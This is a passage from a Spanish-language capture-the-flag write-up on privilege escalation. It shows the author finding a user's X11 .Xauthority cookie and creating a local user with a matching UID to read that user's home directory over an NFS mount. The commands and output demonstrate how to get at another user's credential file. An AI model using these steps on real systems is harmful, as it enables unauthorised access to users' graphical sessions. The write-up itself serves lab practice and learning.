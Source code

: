## Escalada de privilegios

### .Xauthority

Algo que me llamó la atención, es la existencia de el archivo `/home/ross/.Xauthority`. Este archivo que almacena **Magic Cookies**, credenciales que permiten acceder al servidor X11 (sistema gráfico), [aquí](https://book.hacktricks.wiki/en/network-services-pentesting/6000-pentesting-x11.html) os dejo un artículo de **HackTricks** con el que nos guiaremos. Para ver si hay alguna sesión activa, usaremos `w`:

```bash wrap=false
alex@squashed:/home$ w
 13:14:11 up 1 day, 16:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Mon21   40:13m  2:35   0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Vemos que **ross** está en una sesión en la pantalla `:0`. Para intentar conectarnos usaremos el siguiente comando:

```bash wrap=false
alex@squashed:/home$ xdpyinfo -display :0
No protocol specified
xdpyinfo:  unable to open display ":0".
```

Esto es porque necesitamos tener el `.Xauthority`, vamos a descargarlo:

```bash wrap=false intitle="Servimos el archivo"
❯ cd ross_home
❯ ls -la
drwxr-xr-x 1001 1001 4.0 KB Mon Oct  6 23:01:18 2025  .
drwxr-xr-x root root 4.0 KB Tue Oct  7 23:27:41 2025  ..
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰃨 .cache
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .config
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰢬 .gnupg
drwx------ 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  .local
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Desktop
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Documents
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉍 Downloads
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󱍙 Music
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022 󰉏 Pictures
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Public
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Templates
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Videos
lrwxrwxrwx root root   9 B  Thu Oct 20 15:24:01 2022  .bash_history ⇒ /dev/null
lrwxrwxrwx root root   9 B  Fri Oct 21 15:07:10 2022  .viminfo ⇒ /dev/null
.rw------- 1001 1001  57 B  Mon Oct  6 23:01:18 2025  .Xauthority
.rw------- 1001 1001 2.4 KB Mon Oct  6 23:01:18 2025  .xsession-errors
.rw------- 1001 1001 2.4 KB Tue Dec 27 16:33:41 2022 󰁯 .xsession-errors.old
❯ sudo useradd -u 1001 dummy2
❯ sudo su dummy2 -c bash
bash: no se puede establecer el grupo de proceso de terminal (784281): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
dummy2@kali:/mnt/nfs/ross_home$ ls -la
total 68
drwxr-xr-x 14 dummy2 dummy2 4096 oct  6 23:01 .
drwxr-xr-x  4 root   root   4096 oct  7 23:27 ..
lrwxrwxrwx  1 root   root      9 oct 20  2022 .bash_history -> /dev/null
drwx------ 11 dummy2 dummy2 4096 oct 21  2022 .cache
drwx------ 12 dummy2 dummy2 4096 oct 21  2022 .config
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Desktop
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Documents
drwxr-xr-x  2 dummy2 dummy2 4096 oct 21  2022 Downloads
```